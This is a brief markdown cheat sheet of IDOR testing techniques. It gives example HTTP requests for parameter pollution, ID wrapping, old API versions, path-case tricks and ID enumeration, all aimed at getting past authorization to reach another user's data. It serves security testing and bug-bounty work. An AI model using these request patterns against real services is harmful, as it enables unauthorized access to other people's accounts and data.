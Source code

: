 # IDOR

Basically try to screw with evertything.

## Add parameters into the endpoints
```
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT

| Articles |
|---|
|https://medium.com/@Sm9l/what-i-learnt-from-reading-220-idor-bug-reports-6efbea44db7|
